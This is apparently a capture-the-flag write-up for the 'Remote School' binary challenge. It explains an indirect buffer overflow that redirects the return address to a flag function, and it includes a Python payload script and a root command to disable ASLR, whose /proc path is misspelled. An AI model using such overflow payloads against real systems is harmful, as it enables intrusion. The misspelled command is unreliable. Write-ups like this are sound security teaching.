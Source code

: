 # Remote School

## Solution

Out of all the PWN challenges this was intended to be the hardest.

The exploit is an indirect buffer overflow.
If we look around in the binary we see there is a class called Hackers that we can attend.
If we go there it gets our input and allows us to overwrite `8 bytes`.
The binary also leaks EBP for us.
In our vulnerable function we see there are two local variables.
We can assume one is a pointer as another variable's value is loaded into its address.

If we overwrite our local pointer variable's address with EBP+4 we can effectively control the return address.
Therefore we will need to overwrite the other local variable with the get flag function!

This will ensure that when we return from this function the flag is printed.

```python
import struct
flag_address = 0x56556299


ebp = 0xffff9bb8    # live ebp
# ebp = 0xffff9108  # gdb ebp

ret_address = struct.pack("I", ebp + 0x4)
flag_address = struct.pack("I", flag_address)

payload = 'a'*0x800 + flag_address + ret_address

print("Jordan\n")
print("attend Hacker")
print(payload)
```

## Note

ASLR was disabled on the server for this challenge. If running locally ensure you have ASLR off too.

Run, as root, `echo 0 > /proc/sys/kernal/randomize_va_space`
